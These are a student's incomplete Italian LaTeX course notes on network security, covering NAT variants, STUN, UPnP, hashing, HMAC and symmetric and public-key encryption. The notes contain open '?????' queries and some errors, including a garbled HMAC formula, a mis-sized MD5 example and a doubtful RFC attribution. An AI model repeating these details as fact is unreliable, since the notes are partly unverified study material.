\title{Riassunto Network Security and Management}
\author{
        Tommaso Puccetti \\
                Studente presso Universita degli studi di Firenze
}
\date{\today}

\documentclass[12pt]{article}
\usepackage{graphicx}
\usepackage{hyperref}

\begin{document}
	
	\maketitle
	\tableofcontents
	\listoftables
	\listoffigures
	
	\section{Security Basics}
		Proprietà della \textbf{Security}:
		\begin{itemize}
			\item \textbf{Confidentiality:} assicurare che persone non autorizzate accedano alle informazioni.
			\item \textbf{Integrity:} assicurare che le informazioni non vengano alterate da individui non autorizzati, in un modo che non sia individuabile dagli utenti autorizzati
			\item \textbf{Authentication}: Assicurarsi che gli utenti siano chi  dicono di essere.
		\end{itemize}
		La security non deve essere confusa con la sicurezza. \textbf{Security:}
		\begin{itemize}
			\item La qualità o lo stato di essere sicuri (liberi da pericoli, da paura o ansi, libero dalla prospettiva di essere licenziato);
			\item Qualcosa di dato, depositato o impegnato con lo scopo di rendere un impegno un obbligo;
			\item Uno strumento di investimento nella forma di un contratto, che fornisce l'evidenza della sua proprietà;
			\item Qualcosa che protegge (misure messe in atto contro lo spionaggio o sabotaggio, crimini o attacchi.)
		\end{itemize}
		Per quanto riguarda la safety:
		\begin{itemize}
			\item La condizione di essere sicuri rispetto al subire o causare danno, infortuni, o perdite.
			\item Un dispositivo progettato per prevenire operazione involontarie o pericolose.	
		\end{itemize}
		La sicurezza ha un \textbf{costo}: un sistema sicuro è \textbf{più complesso da realizzare e da manutenere}, in definitiva \textbf{più complesso}. BLABLABLA
		
	\section{NAT}
		\textbf{Problema}: \textit{gli indirizzi IP sono pochi e costosi, per di più non sempre vogliamo esporre la struttura interna di una Intranet (rete locale)}.\\
		
		Per questo motivo vengono utilizzate classi di indirizzi IP (IPv4) \textbf{non-routable}, come definito in \textbf{RFC 1918}, riservati alle reti locali, con lo \textbf{scopo di ridurre le richieste su indirizzi pubblici}. I pacchetti con tali indirizzi per l'instradamento e l'indirizzamento tramite protocollo IP da router internet.\\
		Si utilizza il \textbf{NAT} e \textbf{NAPT} per mascherare un indirizzo tramite proxy a livello IP:
		\begin{itemize}
			\item Si trasforma un indirizzo sorgente (IP Number e port) in un altro indirizzo.
			\item Il server NAT viene visto all'esterno come la sorgente della comunicazione
			\item Il NAT è \textbf{trasparente} all'utente interno 
		\end{itemize}
		Di fatto il NAT permette di modificare gli indirizzi IP contenuti negli header dei pacchetti, in transito dall'esterno verso l'interno della rete locale. Lo scopo è quello di tradurre l'indirizzo di destinazione pubblico (quello del NAT Server) in un indirizzo riservato  alla rete locale.\\
		
		\textit{Classi di indirizzi privati:\ref{fig:1}}
		\begin{figure}[h!]
			\centering
			
\includegraphics[scale=0.40]{img/class.PNG}
			\caption{Classi di indirizzi privati\label{fig:1}}
		\end{figure}
		\subsection{Basi}
			I pacchetti \textbf{non routable} non sono trasportati in internet (ovvero i router li scartano) poichè il loro indirizzo IP \textbf{non è univoco}. Serve pertanto un traduzione da indirizzi non routable a indirizzi routable: il NAT si occupa di questo.\\
		
			\textit{NAT basi:\ref{fig:6}}
			\begin{figure}[h!]
				\centering
				
\includegraphics[scale=0.60]{img/basi.PNG}
				\caption{NAT basi\label{fig:6}}
			\end{figure}
		
			Un NAT svolge le seguenti \textbf{operazioni} sia quando arriva un pacchetto sull'interfaccia \textbf{interna} che su quella \textbf{esterna}:
			\begin{itemize}
				\item Si cerca un \textbf{binding} se c'è si trasla il pacchetto e si esegue un \textbf{forward} di quest'ultimo, altrimenti si \textbf{scarta} il pacchetto
				\item Allo scadere di un \textbf{timer} specifico si \textbf{cancella il binding}
			\end{itemize}
	
		\subsection{NAT statico}
			\begin{itemize}
				\item Si ha un mapping uno a uno tra indirizzi esterni ed interni.
				\item Può essere utilizzato in congiunzione con un firewall.
				\item Non risolve il problema della scarsità di indirizzi.
				\item Risulta molto facile da implementare	
			\end{itemize}
		
		\textit{NAT Statico:\ref{fig:2}}
		\begin{figure}[h!]
			\centering
			
\includegraphics[scale=0.40]{img/static.PNG}
			\caption{NAT Statico\label{fig:2}}
		\end{figure}
		
		\subsection{NAT Dinamico}
			\begin{itemize}
				\item Mapping dinamico tra indirizzi esterni ed indirizzi interni.
				\item \textbf{Risolve il problema della scarsità degli indirizzi.} Possiamo infatti riutilizzare indirizzi pubblici, assegnandoli ad un indirizzo privato, per poi cancellare questa associazione in caso tale indirizzo  sia necessario ad un ulteriore indirizzo privato.
				\item Richiede Server stateful ( mantiene informazioni di stato dell'utente durante una sessione).
				\item Gli indirizzi privati non sono dinamici, sono dunque gli quelli pubblici che possono essere assegnati dinamicamente ad uno privato, scegliendone uno disponibile da un \textbf{pool} di indirizzi prestabiliti.
			\end{itemize}
		\textit{NAT Dinamico:\ref{fig:3}}
		\begin{figure}[h!]
			\centering
			
\includegraphics[scale=0.60]{img/dinamic.PNG}
			\caption{NAT Dinamico\label{fig:3}}
		\end{figure}
		
		\subsection{NAPT: Network Address and Port Translation}
			\begin{itemize}
				\item Mapping dinamico tra indirizzi interni ed esterni \textbf{con porte dinamiche}.
				\item Risolve il problema della scarsità di indirizzi
				\item Richied un serve stateful più complesso rispetto al NAT.
			\end{itemize}
			
			\textit{NAPT:\ref{fig:4}}
			\begin{figure}[h!]
				\centering
				
\includegraphics[scale=0.60]{img/natp.PNG}
				\caption{NAPT\label{fig:4}}
			\end{figure}
			
			Tuttavia il NAT ha una controindicazione: implica un \textbf{ricalcolo dei checksum} IP e TCP come avviene in IPSec (standard per reti a pacchetto per la sicurezza su reti IP). La logica è la seguente: cambiando l'indirizzo IP di un pacchetto il checksum precedente da errore se confrontato con quello ricalcolato con il nuovo IP. Le due cose possono \textbf{interferire portando ad un completo blocco delle comunicazioni}. Si hanno problemi sia con la funzione \textbf{AH} (Authentication Header, protocollo per controllo integrità di pacchetto, garantisce authentication pacchetto per pacchetto tramite checksum a chiave simmetrica) sia con la funzione \textbf{ESP} (Encapsulating Security Payload utilizzato per autenitcità confidenzialità e integrità) di IPSEC.\\
			
			\textit{NAT security:\ref{fig:5}}
			\begin{figure}[h!]
				\centering
				
\includegraphics[scale=0.60]{img/natipsec.PNG}
				\caption{NAT security\label{fig:5}}
			\end{figure}
			
			\textbf{La soluzione} può essere quella di applicare il NAT e poi IPSEC, o in alternativa eseguirli insieme. Da tenere in considerazione il fatto che un Host dietro a un NAT non può cominciare una comunicazione IPSec (???????). Inoltre la \textbf{co-locazione di NAT e IPSEC è un potenziale pericolo per la sicurezza}. La terza opzione è quella di utilizzare un tunnel IP-over-IP ma è deprecabile.
		\subsection{NAT RFC 1631 e RFC 2776 }  
			Per quanto riguarda \textbf{RFC 1631} si varia \textbf{solo gli indirizzi IP}, in questo modo tuttavia non risolviamo il problema della scarsità di indirizzi. Infatti il numero di indirizzi necessari è pari al numero di PC che vogliono utilizzare \textit{contemporaneamente} lo stesso protocollo.\\
			\textit{NAT: RFC 1631\ref{fig:7}}\\
			\begin{figure}[h!]
				\centering
				
\includegraphics[scale=0.60]{img/1631.PNG}
				\caption{NAT: RFC 1631\label{fig:7}}
			\end{figure}
			In RFC 2776 invece, si varia \textbf{sia indirizzi IP che le porte}. In tal modo il numero delle sessione contemporanee (ovvero il numero di bindings contemporanei) è pari circa a 64000 (escludendo le porte ben conosciute.)
		\subsection{NAT binding}
			Per binding intendiamo una relazione: $${IP,proto,port}(int)<=>{IP,Proto,Port}(ext) $$
			In realtà quello che è inteso come bindig è composto da \textbf{Binding + Filter}.
			\begin{itemize}
				\item Il primo associa indirizzo porta interna a un indirizzo porta esterna (realizza la funzione $interno <=> esterno$)
				\item Il secondo decide se e quali pacchetti dall'esterno vanno ritradotti. \textbf{\textit{Attenzione}}: il comportamento del filter genera differenti comportamenti del NAT, alcuni voluti altri no.
			\end{itemize}
			Il binding varia a seconda dei protocolli che utilizziamo, nello specifico parliamo delle differenze che si riscontrano tra \textbf{TCP} e \textbf{UDP} a livello di NAT:
			\begin{itemize}
				\item TCP è \textbf{stateful}, dunque il binding è aggiornato in base ad un timer che varia a seconda dello stato della connessione e della dimensione della CWIN. Per questo protocollo il NAT ha un comportamento \textbf{symmetric} ossia \textbf{binding e filter sono basati sulla stessa quintupla} 
				$$(protocollo, IP, porte sorgente-destinazione) $$
				(Quintupla ?????)\\
				Per questo motivo \textbf{le comunicazioni  devono partire dall'interno} e non è possbili effettuare una callback, quindi PASSIVE FTP (????????). Inoltre il \textbf{demultiplexing è definito a livello TCP} 
				\item UDP è \textbf{stateless}, il binding è basato solo su un timer e sulla conoscenza del comportamento dell'applicazione (informazioni sulle porte utilizzate ad esempio). Il \textbf{demultiplexing} è fatto a \textbf{livello applicazione}, in questo modo una sola applicazione può utilizzare una sola socket in uscita per due stream diversi con destinatari diversi (a differenza di TCP).
			\end{itemize}
			\textit{\textbf{Abbiamo bisogno di un comportamento diverso del NAT per UDP}}.\\
			Esistono diversi modi di implementare NAT per UDP, queste diverse implementazioni dipendono dalle modalità di esecuzione del Filter. In base a come si comporta NAT alcuni applicativi possono funzionare o meno, in parte o del tutto.
			\subsubsection{Symmetric NAT}
				Funziona esattamente come il symmetric per TCP, non funzioneranno i programmi che hanno bisogno di referral e handover (?????)\\
				
				\textit{Symmetric NAT\ref{fig:8}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.60]{img/sym.PNG}
					\caption{Symmetric NAT\label{fig:8}}
				\end{figure}
				
			\subsubsection{Full Cone NAT}
			 	\textbf{Il filter non fa niente}. Tutto e tutti potranno raggiungere  il sorgente (compresi malintenzionati, permetto perfino di eseguire un \textbf{port scanning})\\
			 	
			 	\textit{Full Cone NAT \ref{fig:9}}\\
			 	\begin{figure}[h!]
			 		\centering
			 		
\includegraphics[scale=0.60]{img/cone.PNG}
			 		\caption{Full Cone NAT\label{fig:9}}
			 	\end{figure}\\
			 
			 \subsubsection{Restricted Cone NAT}
			 	I\textbf{l Filter è basato sull'IP del destinatario.} Significa che accettiamo comunicazioni da porte diverse purchè abbiano lo stesso IP ( provengano dallo stesso Host). \textbf{Non c'è controllo sul numero di porta}. Questa politica del Filter è restrittiva poichè non permette a programmi come MSN e mulo di funzionare\\
			 	
			 	\textit{Restricted Cone NAT \ref{fig:10}}\\
			 	\begin{figure}[h!]
			 		\centering
			 		
\includegraphics[scale=0.60]{img/res.PNG}
			 		\caption{Restricted Cone NAT \label{fig:10}}
			 	\end{figure}\\
			 	
			 \subsubsection{Port Restricted Cone NAT}
			 	\textbf{Il filter è basato sulla porta del destinatario}. Funzionano tutti i programmi UDP anche se con delle limitazioni.\\
			 	
			 	\textit{Port Restricted Cone NAT \ref{fig:11}}\\
			 	\begin{figure}[h!]
			 		\centering
			 		
\includegraphics[scale=0.60]{img/port.PNG}
			 		\caption{Port Restricted Cone NAT \label{fig:11}}
			 	\end{figure}\\
			 	
			 \subsubsection{NAT - STUN}
			 	\textit{Come può un'applicazione conoscere il tipo di NAT ?}\newline
			 	Si utilizza un protocollo chiamato \textbf{STUN}, un protocollo \textbf{request-reply}. Esso permette alle applicazioni in esecuzione su un computer di scoprire la presenza ed i tipi di NAT e firewall che si interpongono tra il computer e la rete pubblica. Permette inoltre a questi computer di conoscere gli indirizzi IP e le porte con cui il dispositivo NAT li sta rendendo visibili sulla rete pubblica. \textbf{Ha a disposizione due porte sul client e due porte e due indirizzi ip sul server}\\
			 	STUN non grarantisce una conoscenza accurata, infatti il \textbf{NAT può essere non deterministico}, ossia cambiare il comportamento a seconda della disponibilità delle risorse. Un altro problema si riscontra nella possibilità che ci siano più NAT nel percorso sorgente-destinazione, in questo caso la classificazione non è rigorosa e il comportamento imprevedibile (Il secondo livello di NAT potrebbe non avere lo stesso comportamento del primo)
		\subsection{NAT: ulteriori classificazioni}
			I NAT possono essere classificati in base a tre parametri:
			\begin{itemize}
				\item Come viene fatto il \textbf{binding}.
				\item Come vengono \textbf{aggiornati i filters.}
				\item Quando si riavviano i \textbf{timers.}
			\end{itemize}
			\subsubsection{In base al Binding}
				\begin{itemize}
					\item \textbf{Endpoint independent}: il NAT riusa il binding per tutte le sessioni provenienti da stesso IP/PORTA, IP/PORTA esterni non vengono valutati (\textbf{come full cone NAT})
					\item \textbf{Endpoint address dependent}:Il NAT riusa il binding per tutte le sessioni provenienti dalla stesso IP/porta verso lo stesso IP esterno (la porta non si considera).
					\textbf{E’ come un Restricted Cone NAT.}
					\item \textbf{Endpoint address and port dependent}: come symmetric NAT.  	
				\end{itemize}
			\subsubsection{In base al Port Binding}
				\begin{itemize}
					\item \textbf{Port preservation}: Il NAT tenta di mantenere la porta di origine. Se due Host interni utilizzano la stessa porta di origine uno l'avrà cambiata l'altro no.
					\item \textbf{Port overloading}: Il NAT fa port preservation in modo aggressivo, un secondo tentativo di binding fa scadere il binding esistente
					\item \textbf{Port Multiplexing}: ??????
				\end{itemize}
			\subsubsection{In base al Timer Refresh}
				\begin{itemize}
					\item \textbf{Bidirectional}: il timer è aggiornato dai pacchetti in entrambe le direzioni.
					\item \textbf{Outbound}: Solo pacchetti interno verso l'esterno rinfrescano i timer. Risulta necessario usare un \textbf{keep alive}. Inoltre il timer potrebbe essere per session o per binding ( nel caso di riuso del binding per piu sessioni)
					\item \textbf{Inbound}: solo i pacchetti dall'esterno verso l'interno rinfrescano il timer, anche in questo caso c'è bisogno di un keep- alive
					\item \textbf{Transport protocol state}: come in TCP ma si possono usare altre informazioni (da la possibilità di fare attacchi DOS).
				\end{itemize}
			\subsubsection{In base all'External Filtering }
				\begin{itemize}
					\item \textbf{Endpoint independent}: non filtra o scarta pacchetti (full cone)
					\item \textbf{Endpoint address dependent}: Filtra i pacchetti che non provengono dall'IP originario del binding (restricted cone).
					\item \textbf{Endpoint address and port dependent}:  Filtra i pacchetti che non provengono dall'IP/porta originario del binding (port restricted cone o symmetric).
				\end{itemize}
			\subsection{Considerazioni}
				Per quanto riguarda le \textbf{applicazioni p2p} esse tendono ad aggirare il NAT ma così facendo creano spesso problemi di sicurezza. Per quanto riguarda ICMP rischia di fallire per lo stesso motivo di IPSEC (nel payload sono spesso contenute info su IP e porta originante). Rispetto all'\textbf{IP fragmentation} il problema è quello di ricostruire i pacchetti (o almeno mantenere informazioni sul primo pacchetto), perchè nei frammenti successivi \textbf{manca header UDP/TCP}, ma \textbf{potrebbe essere un attacco a frammentazione}. Inoltre il primo pacchetto può arrivare fuori sequenza. Una soluzione è quella di provare a configurare il nat in modo che esso stesso modifichi il contenuto del payload.
			\subsubsection{NAT: UPnP e IGD}
				\textbf{Universal Plug n Play}: Set di protocolli per la definizione  e l'annuncio di device e servizi. Un dispositivo compatibile UPnP può unirsi dinamicamente ad una rete, ottenendo un indirizzo IP, annunciare il suo nome, trasmettere le proprie capacità su richiesta e venire a conoscenza della presenza e delle capacità degli altri device della rete.\\
				L'\textbf{Internet Gateway Device (IGD) } permete ad un device UPnP di scoprire l'indirizzo esterno di un NAT e di creare filters e bindings per i suoi servizi in modo automatico. In questo modo le porte sono aperte in modo incontrollato  e potrebbero sovrascrivere i binding esistenti... come per la porta 80 (implementato in Windows). \newpage
	
	
	\section{Crittografia}
		\textit{La crittografia è la scienza di mantenere segrete le informazioni.}\\
		Oggi la criptografia è utilizzata, oltre che per la segretezza, per tutti gli altri servizi di sicurezza che abbiamo visto, \textbf{esclusa la disponibilità del servizio}. Infatti un uso diffuso delle tecniche di cifratura aumenta le possibilità di incorrere in attacchi \textbf{DoS}.
		\begin{itemize}
			\item Protezione documenti:
			\begin{itemize}
				\item \textbf{Integrità}
				\item \textbf{Segretezza}
				\item \textbf{Autenticazione}
				\item \textbf{Non ripudiabilità}
			\end{itemize}
			\item Verifica identità dei corrispondenti: \textbf{controllo degli accessi}. 
		\end{itemize}
		Vediamo le principali funzioni crittografiche.
		\subsection{Funzioni Hash}
			Risolvono il problema della \textbf{garanzia di integrità} di un documento trasmesso. \\
			\textit{Una funzione hash è una funzione unidirezionale che si applica ad un'informazione, generando un'impronta (\textbf{digest}) di dimensione fissa che è funzione dei dati in ingresso}. Generalmente sono sequenze di operazioni elementari quali \textbf{shift} e \textbf{XOR} sui dati, quindi \textbf{molto veloci da computare}.\\
			
			\textit{Criptography basis \ref{fig:12}}\\
			\begin{figure}[h!]
				\centering
				
\includegraphics[scale=0.60]{img/sha.PNG}
				\caption{Criptography basis \label{fig:12}}
			\end{figure}\\
			
			\textbf{Esempio}:
			\begin{itemize}
				\item A invia a B un messaggio M, calcola \textbf{H(M) = D} ed invia anche D.
				\item B riceve M e D, calcola H(M)= D'.\textbf{ Se D=D'} si ha la garanzia che il messaggio non è stato modificato.
				\item E potrebbe intercettare solo M e modificarlo, ma quando B riceverà anche D, l'hash sarà diverso e quindi B si accorgerà che M è stato modificato. Per riuscire a modificare M in M' E deve intercettare anche D e cambiarlo in H(M').
			\end{itemize}
			Un'applicazione tipica è quella della distribuzione di file eseguibili: quando scaricate un eseguibile il file deve essere identico a quello che il produttore ha generato, anche un bit puà provocare un malfunzionamento. Con le ISO degli OS viene fornito il codice \textbf{md5} del file che è il digest creato con l'hash. \\
			Una funzione hash deve avere i seguenti \textbf{requisiti minimi}:
			\begin{itemize}
				\item \textbf{Compressione:} H mappa un input di lunghezza finita e arbitraria in un output H(x) di lunghezza fissata n.
				\item \textbf{Facilità di computazione:} dato H e un input x, H(x) è facile da computare 
			\end{itemize}
			In aggiunta abbiamo:
			\begin{itemize}
				\item \textbf{preimage resistance:} per ogni output è computazionalmente infattibile trovare un qualsiasi input che tramite hash genera quell'output. Dato un output y è impossibile trovare x tale che H(x)=y.
				\item \textbf{2nd preimage resistance:} è computazionalmente infattibile trovare un qualsiasi secondo input che ha lo stesso output di uno specifico primo input. Infattibile trovare x!=x' tale che H(x')=H(x).
				\item \textbf{Resistenza alla collisione:} impossibile trovare qualsiasi coppia di input x e x' che producono lo stesso digest ( H(x')=H(x)).
			\end{itemize}
			Uno dei \textbf{limiti} delle funzioni hash risiede nel fatto che se l'attaccante intercetta il digest può modificarlo, facendo passare inosservata la modifica al contenuto del file (si possono usare più funzioni hash). Per questo motivo le hash si accompagnano ad altri metodi di autenticazione.
			\subsubsection{HMAC}
				Keyed-hash-message authentication code \textbf{accoppia l'utilizzo di una chiave simmetrica ad una funzione hash} per garantire, oltre all'integrità, \textbf{l'autenticazione} dei dati. Per \textbf{chiave simmetrica} intendiamo una stringa opportunamente lunga scelta in modo meno predicibile possibile. Spesso si utilizzano delle funzioni hash per generare una chiave simmetrica a partire da una data \textbf{password}:
				$$ K = md5(password) = 0x12ab5893092ba4183f3a345872b34f233$$
				Se si dispone di una buona funzione hash si può generare un HMAC componendo la funzione hash con la chiave.
				$$HMACK (M) = H((K \oplus opad) _ H((K \oplus ipad) \vee M)) $$
				\textbf{In questo modo il digest può essere calcolato solo se si conosce la chiave K.}\\
				Passiamo ora a descriverne il \textbf{funzionamento:}
				\begin{itemize}
					\item A e B si mettono d'accordo su una password utilizzando un canale sicuro.
					\item A per inviare un messaggio a B :
					\begin{enumerate}
						\item calcola K = md5(password)
						\item calcola $HMACK_{K}(M)$
						\item invia a B la coppia M, $HMACK_{K}(M)$
					\end{enumerate}
					\item M e $HMACK_{K}(M)$ possono essere inviate accoppiate nello stesso pacchetto.
				\end{itemize} 
			
				\textit{HMAC \ref{fig:13}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.60]{img/hamac.PNG}
					\caption{HMAC \label{fig:13}}
				\end{figure}\\
				
				I \textbf{vantaggi rispetto ad una semplice funzione hash} sono:
				\begin{itemize}
					\item Se E intercetta sia M che $HMACK_{K}(M)$ per cambiare M dovrebbe:
					\begin{itemize}
						\item Modificare M in M'
						\item ricalcolare $HMACK_{K}(M)$
					\end{itemize}
				\item tuttavia E non è in possesso di M (K no?????) quindi non può calcolare l'HMAC.
				\end{itemize}
				Schemi di questo tipo sono utilizzati per garantire integrità e implicitamente anche l'autenticazione di pacchetti livello MAC in molte tipologie di reti. \\
				Di seguito una lista delle principali problematiche:
				\begin{itemize}
					\item \textbf{Problema di gestione}: A e B hanno bisogno  di una canale sicuro per scambiare la chiave, non utile per comunicazioni via internet.
					\item \textbf{Attacchi di forza bruta}: E potrebbe intercettare una pacchetto e cercare di indovinare la chiave K: \begin{itemize}
						\item dato M, e K = 0x00000000000000000000000000000000
						\item D = HMACK (M) ? se è vero allora K è la chiave giusta, altrimenti
						\item K = 0x00000000000000000000000000000001, riprova. . .
					\end{itemize}
					Un attacco di questo tipo è \textbf{computazionalmente impegnativo} per calcolare tutte le chiavi possibili ($2^{128}$) ci vogliono migliaia di anni. Tuttavia se la chaive è generata da una password l'attacco \textbf{diventa possibile} utilizzando un \textbf{dizionario}:
					\begin{itemize}
						\item dato M e K = md5(abaco), D = HMACK (M)
						\item se è falso, K = md5(abate). . .
					\end{itemize}
					Le parole di un dizionario possono essere decine di migliaia, per generarle tutte ci vogliono pochi minuti.\textit{\textbf{ Per questo le password non devono essere scelte come parole esistenti!}}
				\end{itemize}
		\subsection{Cifratura a chiave simmetrica}
			\textbf{Principio di Kerchoff}:
			\begin{itemize}
				\item Gli algoritmi crittografici devono essere \textbf{noti a priori}.
				\item Un prodotto che garantisce cifratura con \textbf{algoritmo segreto}, non è un buon prodotto.
			\end{itemize}
			Spieghiamo il \textbf{funzionamento	}:
			\begin{itemize}
				\item A e B si accordano su una chiave K o una password da cui generare K (come in HMAC).
				\item I messaggi possono essere decifrati solo con una chiave K.
				\item Stesso algoritmo per cifrare e decifrare.					
			\end{itemize}
				
			\textit{DES \ref{fig:14}}\\
			\begin{figure}[h!]
				\centering
				
\includegraphics[scale=0.60]{img/des.PNG}
				\caption{DES \label{fig:14}}
			\end{figure}\\
		
			\textit{DES2 \ref{fig:15}}\\
			\begin{figure}[h!]
				\centering
				
\includegraphics[scale=0.60]{img/des2.PNG}
				\caption{DES2 \label{fig:15}}
			\end{figure}\\
				
			Tra i \textbf{problemi} che si riscontrano si ha la \textbf{poca flessibilità} dovuta alla necessità per A e B di scambiarsi le chiavi in anticipo. Inoltre ci espone ad \textbf{attacchi di forza bruta} anche se più difficili del caso HMAC (per E sarà più difficile ad ogni tentativo stabili se il messaggio ottenuto è corretto)\\
			\textbf{Possiamo combinare HMAC e cifratura a chiave simmetrica per ovviare a questi problemi}:
			\begin{enumerate}
				\item Si genera HMAC con chiave K
				\item Si cifra tutto il pacchetto compreso l'HMAC con una seconda chiave K'.
			\end{enumerate}
			In questo modo abbiamo segretezza e \textbf{integrità} dei dati oltre che ad una forma di \textbf{autenticazione} in relazione a come vengono scambiate le chiavi. Questo approccio viene utilizzato per le reti LAN nelle quale si può impostare a mano sulle macchine.
			
		\subsection{Cifratura a chiave pubblica/privata}
			\begin{itemize}
				\item A e B possiedono due chiavi ciascuno (possono essere generate insieme da programmi appositi)
				\begin{itemize}
					\item Una chiave pubblica $Pub_{A}$ e $Pub_{B}$
					\item Una chiave privata $Priv_{A}$ e $Priv_{B}$
